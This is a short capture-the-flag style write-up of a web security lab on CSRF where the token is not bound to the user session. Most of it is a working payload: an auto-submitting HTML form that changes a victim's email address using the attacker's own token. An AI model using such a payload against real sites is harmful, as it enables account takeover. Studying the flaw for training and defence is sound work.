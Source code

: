 # Lab: CSRF where token is not tied to user session

The attacker can use his own token to bypass the CSRF protection.

## payload

```html
<form id="mon-formulaire" name="change-email-form" action="https://MYLAB.web-security-academy.net/my-account/change-email" method="POST">
    <input required type="email" name="email" value="wiener@theEvil.com">
    <input required type="hidden" name="csrf" value="QnHOprG0ViCfkxGjHZKV0ipsc7j7yM6A">

</form>

<script>
    let formulaire = document.getElementById("mon-formulaire");
    formulaire.submit();
</script>

```

QnHOprG0ViCfkxGjHZKV0ipsc7j7yM6A is a CSRF token which have not been issued by the current user. (user that i control "wiener") <br>
The application check if this token is present in the pool (pool of token which have not been issued already). <br>
If the token is still present in the pool , the application accept the action to be executed. <br>

